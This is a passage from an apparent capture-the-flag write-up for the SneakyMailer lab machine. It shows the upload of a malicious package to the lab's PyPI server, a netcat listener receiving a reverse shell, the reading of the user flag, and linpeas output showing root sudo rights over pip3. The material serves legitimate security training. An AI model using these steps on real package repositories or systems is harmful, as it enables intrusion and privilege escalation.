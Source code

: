 Afterwards, we will run the command to upload the malicious pypi package onto the pypi server

```
┌──(kali㉿kali)-[~]
└─$ python3 setup.py sdist upload -r exploit
exploit.egg-info/top_level.txt
writing dependency_links to exploit.egg-info/dependency_links.txt
reading manifest file 'exploit.egg-info/SOURCES.txt'
writing manifest file 'exploit.egg-info/SOURCES.txt'
running check
creating exploit-0.1
creating exploit-0.1/exploit
creating exploit-0.1/exploit.egg-info
copying files to exploit-0.1...
copying README.md -> exploit-0.1
copying setup.cfg -> exploit-0.1
copying setup.py -> exploit-0.1
copying exploit/__init__.py -> exploit-0.1/exploit
copying exploit.egg-info/PKG-INFO -> exploit-0.1/exploit.egg-info
copying exploit.egg-info/SOURCES.txt -> exploit-0.1/exploit.egg-info
copying exploit.egg-info/dependency_links.txt -> exploit-0.1/exploit.egg-info
copying exploit.egg-info/top_level.txt -> exploit-0.1/exploit.egg-info
Writing exploit-0.1/setup.cfg
Creating tar archive
removing 'exploit-0.1' (and everything under it)
running upload
Submitting dist/exploit-0.1.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK
```

### Obtaining user flag
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000     
listening on [any] 3000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.197] 56686
low@sneakymailer:/$ cat /home/low/user.txt
cat /home/low/user.txt
<Redacted user flag>
low@sneakymailer:/$ 
```

### Privilege Escalation to root
Using linpeas, we realize that the current user is able to execute pip3 commands with root privileges

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                          
Matching Defaults entries for low on sneakymailer:                                                                   
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```
